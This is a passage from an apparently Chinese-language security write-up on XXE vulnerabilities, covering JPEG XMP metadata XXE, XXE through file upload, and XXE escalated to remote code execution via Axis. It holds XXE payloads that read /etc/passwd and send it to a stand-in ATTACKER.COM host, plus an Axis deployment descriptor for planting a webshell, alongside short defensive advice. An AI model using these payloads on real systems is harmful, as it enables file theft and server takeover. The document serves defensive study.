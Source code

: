 **修复策略**：严格限制SVG文件解析逻辑，过滤 `xlink:href` 中的危险协议。

------

### 9. JPEG XMP元数据XXE

#### 利用步骤

1. **嵌入恶意XMP**：

   ```
   <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://ATTACKER.COM/x.dtd"> %xxe;]
   ```

2. **外带数据DTD**：

   ```
   <!ENTITY % file SYSTEM "file:///etc/passwd">
   <!ENTITY % exfil "<!ENTITY &#x25; send SYSTEM 'http://ATTACKER.COM/?leak=%file;'>">
   ```

**防御方案**：处理图像元数据时禁用实体解析，使用安全解析库。

------

### 10. 文件上传功能XXE

#### 漏洞复现关键

1. **绕过文件类型检查**：修改 `allow_file_type_list` 参数上传.xml文件。
2. **强制解析XML**：通过参数（如 `_hxpage`）触发服务端解析流程。

**安全建议**：实施严格的文件内容校验，避免动态解析用户可控文件。

------

### 11. XXE至RCE（Axis服务滥用）

#### 攻击路径

1. **利用XXE探测路径**：读取服务器文件确定Web根目录。

2. **部署恶意JSP**：通过Axis管理接口上传Webshell：

   ```
   <deployment xmlns="http://xml.apache.org/axis/wsdd/">
     <service name="MaliciousService" provider="java:RPC">
       <parameter name="className" value="Malicious"/>
       <parameter name="allowedMethods" value="*"/>
     </service>
   </deployment>
   ```

**深度防御**：关闭不必要的远程部署接口，限制文件系统权限。

------

### 防御体系总结
